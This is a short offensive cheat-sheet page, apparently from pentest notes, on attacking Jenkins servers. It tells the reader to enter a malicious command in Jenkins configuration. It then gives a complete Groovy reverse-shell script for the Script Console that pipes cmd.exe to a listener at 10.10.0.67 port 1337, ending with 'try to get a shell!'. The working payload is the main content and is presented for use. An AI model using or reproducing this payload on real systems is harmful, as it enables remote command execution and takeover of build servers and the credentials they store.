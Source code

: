 # Jenkins

### Execute Commands

Navigate to `Jenkins > Access > Configure > Command `and type a malicious command.

### Script Console

Navigate to `Manage Jenkins>>Script Console` and edit this code for a reverse connection:

```
String host="10.10.0.67";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new 
Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), 
si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try 
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Click run and try to get a shell!
